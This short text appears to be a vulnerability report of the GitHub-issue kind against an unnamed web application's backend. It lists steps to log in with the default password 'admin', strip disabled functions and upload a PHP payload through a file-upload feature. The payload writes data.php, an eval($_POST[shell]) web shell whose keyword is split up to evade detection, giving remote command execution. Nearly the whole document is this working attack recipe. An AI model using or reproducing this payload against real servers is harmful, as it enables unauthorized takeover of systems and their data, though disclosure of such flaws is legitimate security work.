 1. Use the default account password admin to log in to the backend. Currently, the latest version (August 15, 2023)
2. To remove system disabled functions
3. Upload Payload at the file upload location:
```php
<?php
$fp=fopen('data.php','w');
fwrite($fp,'<?php ');
fwrite($fp,'eva');
fwrite($fp,'l($_PO');
fwrite($fp,'ST[');
fwrite($fp,'shell])?>');
fclose($fp);
echo 'ok';
?>
```

4. Accessing Payload
5. A Trojan file will be generated in the directory to access executable commands




